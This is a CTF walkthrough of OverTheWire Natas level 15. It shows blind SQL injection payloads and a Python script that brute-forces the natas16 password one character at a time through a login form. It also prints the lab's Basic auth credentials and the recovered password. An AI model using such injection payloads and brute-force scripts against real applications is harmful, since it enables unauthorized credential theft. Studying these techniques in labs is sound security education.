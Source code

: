 - This level requires us to gain some knowledge of Blind SQL injection
- We perform blind SQL injection in cases where the results of the SQL query are masked and we can't decide which result is favourable or not
- Here in our case, all the info that we get is that whether the user exists or not, based on some result set
- So I deduced that if we spray the input with different values, we can analyse the behaviour of the application and can possibly figure out the password for the next level
- Hence first I tried the payload to find out whether the user ```natas16``` exists in the database or not, as the password would be present there only
```SQL
" OR (username = "natas16") -- 
```
- This returned the following result in HTML: ```This user exists```
- Now I tried the following payload a few time with differing characters:
```SQL
" OR (username = "natas16"  AND password LIKE BINARY "e%") -- 
```
- For character h, I was able to get the same output again: ```This user exists```
- So I concluded that if I keep on repeating the same approach with the characters getting appended to the guess string, I can figure out the whole password
- The keyword BINARY was required as I was getting some issues without it
- I then wrote a python script that would perform this bruteforce attack for me:
```python
import requests
URL = "http://natas15.natas.labs.overthewire.org/index.php"
CHARACTER_LIST = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
SUCCESS_RESULT = "This user exists"
FAILURE_RESULT = "This user doesn't exist"
HEADERS = {
'Authorization' : 'Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA=='
}
password_str = ""
for i in range(32):
# Since there are only 64 characters in the column, we will be this loop for 64 times only
	for character in CHARACTER_LIST:
		guess_str = password_str + character
		sqli_query = f" \" OR (username = \"natas16\" AND password LIKE BINARY \"{guess_str}%\") -- "
		print(f"Will be sending request with SQLi payload: {sqli_query}")
		data = {'username' : sqli_query}
		r = requests.post(url = URL, data = data, headers = HEADERS)
		response = r.text
		if SUCCESS_RESULT in response:
			print(f"Success result: {SUCCESS_RESULT}")
			print(f"One character found! {character}")
			password_str += character
			print(f"Updated password string is: {password_str}")
			break

print(password_str)
```
- Running this script took a while, but it fetched me the correct password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo